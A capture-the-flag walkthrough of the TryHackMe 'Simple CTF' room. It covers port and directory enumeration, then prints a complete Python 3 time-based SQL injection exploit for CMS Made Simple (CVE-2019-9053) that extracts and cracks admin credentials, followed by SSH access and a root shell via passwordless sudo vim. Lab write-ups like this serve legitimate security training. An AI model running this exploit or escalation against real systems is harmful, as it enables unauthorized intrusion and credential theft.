




# 🧬 Simple CTF — Walkthrough

🔗 **TryHackMe Room:** [Simple CTF](https://tryhackme.com/room/easyctf)

```diff
> enumerate wide • crack the CMS secret • sudo vim becomes root
```

---

## ℹ️ Information

- **Platform:** TryHackMe
- **Difficulty:** Beginner
- **Goal:** recover the web credentials, get an SSH shell, retrieve `user.txt`, escalate to `root`, then retrieve `root.txt`
- **Exposed services:** FTP, HTTP, and SSH on port `2222`

---

## 🧠 Reconnaissance

### Port Scan

Start by scanning the target:

```bash
nmap -p 1-1000 simplectf.thm -sV -T5
```

Initial result:

```text
21/tcp open  ftp   vsftpd 3.0.3
80/tcp open  http  Apache httpd 2.4.18 ((Ubuntu))
```


A fuller scan reveals the SSH service on a non-standard port:

```text
2222/tcp open  ssh  OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
```

👉 **Insight:**
The first scan answers the "under 1000 ports" question, but the real access path needs deeper enumeration. SSH is listening on `2222`, not `22`.

---

## 🌐 Web Enumeration

### Directory Discovery

The web server exposes the default Apache page, so directory discovery is the next move:

```bash
dirsearch -u http://simplectf.thm/
```

Interesting results:

```text
/robots.txt
/simple  ->  http://simplectf.thm/simple/
```



The `/simple` path leads to CMS Made Simple.

👉 **Insight:**
Default Apache pages are often just the lobby. Directory enumeration is what finds the actual application.

---

## 🧪 Exploitation

### CMS Made Simple SQL Injection

CMS Made Simple versions up to `2.2.9` are vulnerable to unauthenticated SQL injection through CVE-2019-9053. The public exploit is available on Exploit-DB:

```text
https://www.exploit-db.com/exploits/46635
```

The original exploit needed adjustment for the local Python 3 environment. This is the Python 3-compatible version used during the solve:

```python
#!/usr/bin/env python3
# Unauthenticated SQL Injection on CMS Made Simple <= 2.2.9
# CVE-2019-9053

import requests
from termcolor import colored, cprint
import time
import optparse
import hashlib

# ---------- Options ----------
parser = optparse.OptionParser()
parser.add_option('-u', '--url',
                  action="store", dest="url",
                  help="Base target uri (ex. http://10.10.10.100/cms)")
parser.add_option('-w', '--wordlist',
                  action="store", dest="wordlist",
                  help="Wordlist for crack admin password")
parser.add_option('-c', '--crack',
                  action="store_true", dest="cracking",
                  help="Crack password with wordlist", default=False)

options, args = parser.parse_args()

if not options.url:
    print("[+] Specify an url target")
    print("[+] Example usage (no cracking password): exploit.py -u http://target-uri")
    print("[+] Example usage (with cracking password): exploit.py -u http://target-uri --crack -w /path-wordlist")
    print("[+] Setup the variable TIME with an appropriate time, because this SQL injection is time based.")
    exit(1)

# ---------- Globals ----------
url_vuln = options.url.rstrip('/') + '/moduleinterface.php?mact=News,m1_,default,0'
session = requests.Session()
dictionary = '1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM@._-$'
flag = True
password = ""
TIME = 1  # a ajuster si besoin (latence)
db_name = ""
output = ""
email = ""
salt = ''

wordlist = ""
if options.wordlist:
    wordlist = options.wordlist

# ---------- Helpers ----------
def crack_password():
    global password, output, wordlist, salt
    if not wordlist:
        output += "\n[!] No wordlist provided, cannot crack password."
        return

    try:
        with open(wordlist, "r", encoding="utf-8", errors="ignore") as f:
            for line in f:
                line = line.strip()
                if not line:
                    continue
                beautify_print_try(line)
                # md5 in Python 3 expects bytes
                if hashlib.md5((salt + line).encode()).hexdigest() == password:
                    output += "\n[+] Password cracked: " + line
                    break
    except FileNotFoundError:
        output += "\n[!] Wordlist file not found: " + wordlist

def beautify_print_try(value):
    global output
    print("\033c")
    cprint(output, 'green', attrs=['bold'])
    cprint('[*] Try: ' + value, 'red', attrs=['bold'])

def beautify_print():
    global output
    print("\033c")
    cprint(output, 'green', attrs=['bold'])

def dump_salt():
    global flag, salt, output
    ord_salt = ""
    ord_salt_temp = ""
    while flag:
        flag = False
        for ch in dictionary:
            temp_salt = salt + ch
            ord_salt_temp = ord_salt + format(ord(ch), 'x')
            beautify_print_try(temp_salt)

            payload = (
                "a,b,1,5))+and+(select+sleep(" + str(TIME) +
                ")+from+cms_siteprefs+where+sitepref_value+like+0x" +
                ord_salt_temp + "25+and+sitepref_name+like+0x736974656d61736b)+--+"
            )
            url = url_vuln + "&m1_idlist=" + payload

            start_time = time.time()
            r = session.get(url)
            elapsed_time = time.time() - start_time

            if elapsed_time >= TIME:
                flag = True
                break

        if flag:
            salt = temp_salt
            ord_salt = ord_salt_temp

    flag = True
    output.append if isinstance(output, list) else None
    output_str = '\n[+] Salt for password found: ' + salt
    output += '\n[+] Salt for password found: ' + salt

def dump_password():
    global flag, password, output
    ord_password = ""
    ord_password_temp = ""
    while flag:
        flag = False
        for ch in dictionary:
            temp_password = password + ch
            ord_password_temp = ord_password + format(ord(ch), 'x')
            beautify_print_try(temp_password)

            payload = (
                "a,b,1,5))+and+(select+sleep(" + str(TIME) +
                ")+from+cms_users+where+password+like+0x" +
                ord_password_temp + "25+and+user_id+like+0x31)+--+"
            )
            url = url_vuln + "&m1_idlist=" + payload

            start_time = time.time()
            r = session.get(url)
            elapsed_time = time.time() - start_time

            if elapsed_time >= TIME:
                flag = True
                break

        if flag:
            password = temp_password
            ord_password = ord_password_temp

    flag = True
    output += '\n[+] Password found: ' + password

def dump_username():
    global flag, db_name, output
    ord_db_name = ""
    ord_db_name_temp = ""
    while flag:
        flag = False
        for ch in dictionary:
            temp_db_name = db_name + ch
            ord_db_name_temp = ord_db_name + format(ord(ch), 'x')
            beautify_print_try(temp_db_name)

            payload = (
                "a,b,1,5))+and+(select+sleep(" + str(TIME) +
                ")+from+cms_users+where+username+like+0x" +
                ord_db_name_temp + "25+and+user_id+like+0x31)+--+"
            )
            url = url_vuln + "&m1_idlist=" + payload

            start_time = time.time()
            r = session.get(url)
            elapsed_time = time.time() - start_time

            if elapsed_time >= TIME:
                flag = True
                break

        if flag:
            db_name = temp_db_name
            ord_db_name = ord_db_name_temp

    output += '\n[+] Username found: ' + db_name
    flag = True

def dump_email():
    global flag, email, output
    ord_email = ""
    ord_email_temp = ""
    while flag:
        flag = False
        for ch in dictionary:
            temp_email = email + ch
            ord_email_temp = ord_email + format(ord(ch), 'x')
            beautify_print_try(temp_email)

            payload = (
                "a,b,1,5))+and+(select+sleep(" + str(TIME) +
                ")+from+cms_users+where+email+like+0x" +
                ord_email_temp + "25+and+user_id+like+0x31)+--+"
            )
            url = url_vuln + "&m1_idlist=" + payload

            start_time = time.time()
            r = session.get(url)
            elapsed_time = time.time() - start_time

            if elapsed_time >= TIME:
                flag = True
                break

        if flag:
            email = temp_email
            ord_email = ord_email_temp

    output += '\n[+] Email found: ' + email
    flag = True

# ---------- Main ----------
dump_salt()
dump_username()
dump_email()
dump_password()

if options.cracking:
    print(colored("[*] Now try to crack password", 'yellow'))
    crack_password()

beautify_print()
```

Then it was run against the CMS path with a password list:

```bash
python3 cmsexploit.py -u http://simplectf.thm/simple -w /usr/share/wordlists/SecLists/Passwords/Common-Credentials/best110.txt -c
```

Recovered values:

```text
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```



Credentials:

```text
mitch:secret
```



👉 **Insight:**
The exploit does two jobs: it extracts the CMS account data and, with a wordlist, cracks the salted hash into a reusable password.

---

## 🐚 Initial Access

Use the recovered credentials to connect through SSH on port `2222`:

```bash
ssh mitch@simplectf.thm -p 2222
```

After authentication, the target drops into a shell as `mitch`.

```text
Welcome to Ubuntu 16.04.6 LTS
$ whoami
mitch
```

👉 **Insight:**
Password reuse turns a CMS compromise into system access. Once credentials appear, test them against every exposed login service.

---

## 🚩 User Flag

The user flag is in `mitch`'s home directory:

```bash
cd /home/mitch
ls -la
cat user.txt
```

Flag:

```text
G00d j0b, keep up!
```



---

## ⬆️ Privilege Escalation

### Sudo Enumeration

Check what `mitch` can run with elevated privileges:

```bash
sudo -l
```

Important result:

```text
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

### Root Shell

Because `vim` can be executed as root without a password, use it to spawn a shell:

```bash
sudo vim -c ':!/bin/sh'
```

Then confirm privileges:

```bash
whoami
```

```text
root
```

👉 **Insight:**
`sudo -l` is small but powerful. A single passwordless editor entry can become a full root shell when the binary supports command execution.

---

## 👑 Root Flag

Find and read the root flag:

```bash
find / -type f -name root.txt 2>/dev/null
cat /root/root.txt
```

Flag:

```text
W3ll d0n3. You made it!
```

---

## 🧠 Final Thoughts

This room highlights:

- full port enumeration
- web directory discovery
- CMS Made Simple exploitation
- hash cracking with a wordlist
- SSH access through reused credentials
- `sudo` privilege escalation with GTFOBins

---

```diff
> hidden SSH gives the foothold • passwordless vim gives the crown
```

## 🔗 References

- [TryHackMe - Simple CTF](https://tryhackme.com/room/easyctf)
- [Exploit-DB - CMS Made Simple <= 2.2.9 SQL Injection](https://www.exploit-db.com/exploits/46635)
- [CVE-2019-9053](https://nvd.nist.gov/vuln/detail/CVE-2019-9053)
- [GTFOBins - Vim](https://gtfobins.github.io/gtfobins/vim/)

---

The original solving notes are preserved in [Notes.md](Notes.md).
